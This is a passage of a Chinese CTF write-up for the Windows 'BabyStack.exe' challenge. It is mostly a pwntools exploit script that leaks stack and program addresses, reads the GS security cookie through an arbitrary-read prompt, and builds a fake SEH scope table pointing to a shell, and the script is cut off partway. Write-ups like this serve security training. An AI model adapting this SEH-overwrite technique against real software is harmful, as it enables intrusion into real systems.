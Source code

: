 
## EXP

由于比赛服务器关闭，因此通过windows配置开放SSH给ubuntu，进行测试。

```python
from pwn import *
context.log_level="debug"
p=remote("192.168.43.254",22)
p.sendline("BabyStack.exe")
p.recvuntil("stack address = ")
stack_addr=int(p.recvuntil("\n").strip(),16)
p.recvuntil("main address = ")
main_addr=int(p.recvuntil("\n").strip(),16)
I_know = hex(main_addr+0x4BF3)[2:].upper().rjust(8,"0")
#print hex(stack_addr),hex(main_addr)

stack1 = stack_addr - 0x3C
stack2 = stack_addr - 0x38
stack3 = stack_addr - 0x34
stack4 = stack_addr - 0x30
shell = main_addr + 0x4903
SEH_scope_table = p32(0xFFFFFFE4)
SEH_scope_table += p32(0)
SEH_scope_table += p32(0xFFFFFFC0)
SEH_scope_table += p32(0)
SEH_scope_table += p32(0xFFFFFFFE)
SEH_scope_table += p32(shell)
SEH_scope_table += p32(shell)
cookie_addr = main_addr + 0x786A1
GS_addr=stack_addr - 0x18

#pause()

p.recvuntil("So,Can You Tell me what did you know?\n")
p.sendline(I_know)

p.recvuntil("Do you want to know more?\n")
p.sendline("yes")
p.recvuntil("Where do you want to know?\n")
p.sendline(str(cookie_addr))
p.recvuntil("is ")
cookie=int(p.recvuntil("\n"),16)
#print hex(cookie)

p.recvuntil("Do you want to know more?\n")
p.sendline("yes")
p.recvuntil("Where do you want to know?\n")
p.sendline(str(stack1))
p.recvuntil("is ")
stack11=int(p.recvuntil("\n"),16)
#print hex(stack11)

p.recvuntil("Do you want to know more?\n")
p.sendline("yes")
p.recvuntil("Where do you want to know?\n")
p.sendline(str(stack2))
p.recvuntil("is ")
stack22=int(p.recvuntil("\n"),16)
#print hex(stack22)

p.recvuntil("Do you want to know more?\n")
p.sendline("yes")
p.recvuntil("Where do you want to know?\n")
```
